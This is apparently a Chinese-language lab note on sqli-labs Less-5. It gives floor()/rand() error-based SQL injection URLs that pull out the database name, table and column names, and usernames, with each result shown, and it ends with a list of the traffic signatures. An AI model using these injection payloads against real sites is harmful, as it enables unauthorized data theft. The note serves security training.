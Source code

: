 #### less-5报错注入floor

##### 数据库名

```mysql
http://192.168.70.14:8088/Less-5/?id=1' union select 1, count(*),concat(0x7e,database(),0x7e,floor(rand(0)*2))x from information_schema.tables group by x --+
```

`security`

![image-20240806171123832](../../../../repo/assets/19.SQL注入/image-20240806171123832.png)

##### 表名

```mysql
http://192.168.70.14:8088/Less-5/?id=1' union select 1,count(*),concat(0x7e,(select table_name from information_schema.tables where table_schema=database() limit 0,1),0x7e,floor(rand(0)*2))x from information_schema.tables group by x --+
```

`emails`

![image-20240806171242318](../../../../repo/assets/19.SQL注入/image-20240806171242318.png)

##### 字段名

```mysql
http://192.168.70.14:8088/Less-5/?id=1' union select 1,count(*),concat(0x7e,(select column_name from information_schema.columns where table_name='users' limit 0,1),0x7e,floor(rand(0)*2))x from information_schema.tables group by x --+
```

`id`

![image-20240806171740441](../../../../repo/assets/19.SQL注入/image-20240806171740441.png)

##### 字段值

```mysql
http://192.168.70.14:8088/Less-5/?id=1' union select 1,count(*),concat(0x7e,(select username from users limit 0,1),0x7e,floor(rand(0)*2))x from information_schema.tables group by x --+
```

`Dumb`

![image-20240806171845214](../../../../repo/assets/19.SQL注入/image-20240806171845214.png)

![image-20240807094157085](../../../../repo/assets/19.SQL注入/image-20240807094157085.png)

### **四、流量特征**

- count()：计算满足某一条件下的行数
- floor()：向下取整的函数
- rand()：生成 0~1 之间的浮点数
- group by：针对表中的字段来分组
